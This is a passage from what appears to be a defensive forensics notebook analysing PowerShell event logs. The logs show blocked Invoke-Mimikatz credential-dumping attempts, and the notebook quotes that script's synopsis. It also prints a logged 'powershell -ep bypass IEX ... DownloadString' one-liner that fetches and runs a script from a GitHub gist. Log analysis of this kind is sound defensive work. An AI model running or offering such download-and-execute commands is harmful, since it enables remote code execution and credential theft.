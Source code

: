 ```python
        fh.write(f"Description\n> {description}\n")
    fh.write("\n5) What is the TaskDisplayName for these messages\n")
    for taskName in powershell_df[powershell_df.failed == 1]["TaskDisplayName"].unique():
        fh.write(f"> {taskName}\n")
    fh.write("\n6) What is the date and time of these actions\n")
    for record in powershell_df[powershell_df.failed == 1][["Date", "Time"]].iterrows():
        fh.write(f"{record[1][0]} {record[1][1]}\n")
```

All in all, we can conclude that 9 actions were blocked or failed. <br><br>
One account was used to execute the scripts in its context and this was 'user' account on WIN-PTFPHFCRDJ0 device. <br><br>
There were attempts to access 3 URLs, all of them related to content hosted on GitHub. Only the first one works, the other two return 404 response code upon accessing the URL. The function which was blocked is Invoke-Mimikatz and the script did not provide descriptions on this functionality. Although, the first URL contained the function's code as well as synopsis section which provides more details on this part of the used script. Mimikatz is an exploit which allows for capturing plaintext credentials from memory. Below, the description obtained by accessing the resource at the first URL address (https://gist.[git]hubusercontent.com/phwRi7EUp): <br><br>
**This script leverages Mimikatz 2.0 and Invoke-ReflectivePEInjection to reflectively load Mimikatz completely in memory. This allows you to do things such as
dump credentials without ever writing the mimikatz binary to disk.
The script has a ComputerName parameter which allows it to be executed against multiple computers.
This script should be able to dump credentials from any version of Windows through Windows 8.1 that has PowerShell v2 or higher installed.**
<br><br>
The TaskDisplayName for these actions was *Executing Pipeline* category only.<br>
We can clearly see that the attempts started on the 22nd and were continued on the 26th October.

We can check the TaskDisplayName attribute in terms of *Executing Pipeline* categorical value for the **successful** actions to finish this part of the analysis.


```python
print(len(powershell_df[(powershell_df.failed == 0) & (powershell_df.TaskDisplayName == "Executing Pipeline")]))
```

    2


Now, we can read these two event messages to see what was executed.


```python
for message in powershell_df[(powershell_df.failed == 0) & (powershell_df.TaskDisplayName == "Executing Pipeline")]["Message"]:
    print(f"\n{message}\n\n")
```

    
    CommandInvocation(Add-Type): "Add-Type"
    ParameterBinding(Add-Type): name="AssemblyName"; value="System.Core"
    
    
    Context:
            Severity = Informational
            Host Name = ConsoleHost
            Host Version = 5.1.17763.1
            Host ID = 64b188be-5af0-47d4-a9d6-934a93dbd615
            Host Application = powershell -ep bypass -c IEX (New-Object Net.WeBcLIENT).Downloadstring('https://gist.githubusercontent.com/blueteampathway/c5735d8a38a02e1cb903a53c6ba860e7/raw/e5caae5b0e2537a5891d71d127866733a367add4/gistfile1.txt');Invoke-AllChecks
            Engine Version = 5.1.17763.1
            Runspace ID = 9584e18e-a650-45d6-828d-f57b3bf92e41
            Pipeline ID = 1
            Command Name = Add-Type
            Command Type = Cmdlet
            Script Name = 
            Command Path = 